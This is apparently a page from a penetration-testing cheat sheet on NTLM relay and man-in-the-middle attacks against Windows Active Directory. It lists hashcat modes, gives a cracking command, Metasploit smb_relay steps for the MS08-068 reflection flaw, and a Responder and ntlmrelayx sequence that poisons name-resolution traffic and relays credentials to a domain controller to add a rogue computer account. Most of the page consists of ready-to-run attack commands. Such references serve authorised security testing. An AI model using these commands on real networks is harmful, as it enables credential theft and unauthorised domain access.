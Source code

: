 # Internal - MITM and Relay

NTLMv1 and NTLMv2 can be relayed to connect to another machine.

| Hash                  | Hashcat | Attack method        |
|-----------------------|---------|----------------------|
| LM                    | `3000`  | crack/pass the hash  |
| NTLM/NTHash           | `1000`  | crack/pass the hash  |
| NTLMv1/Net-NTLMv1     | `5500`  | crack/relay attack   |
| NTLMv2/Net-NTLMv2     | `5600`  | crack/relay attack   |

Crack the hash with `hashcat`.

```powershell
hashcat -m 5600 -a 0 hash.txt crackstation.txt
```

## MS08-068 NTLM reflection

NTLM reflection vulnerability in the SMB protocolOnly targeting Windows 2000 to Windows Server 2008.

> This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

* <https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068>

```powershell
msf > use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > show targets
```

## LDAP signing not required and LDAP channel binding disabled

During security assessment, sometimes we don't have any account to perform the audit. Therefore we can inject ourselves into the Active Directory by performing NTLM relaying attack. For this technique three requirements are needed:

* LDAP signing not required (by default set to `Not required`)
* LDAP channel binding is disabled. (by default disabled)
* `ms-DS-MachineAccountQuota` needs to be at least at 1 for the account relayed (10 by default)

Then we can use a tool to poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network such as `Responder` and use `ntlmrelayx` to add our computer.

```bash
# On first terminal
sudo ./Responder.py -I eth0 -wfrd -P -v

# On second terminal
sudo python ./ntlmrelayx.py -t ldaps://IP_DC --add-computer
```
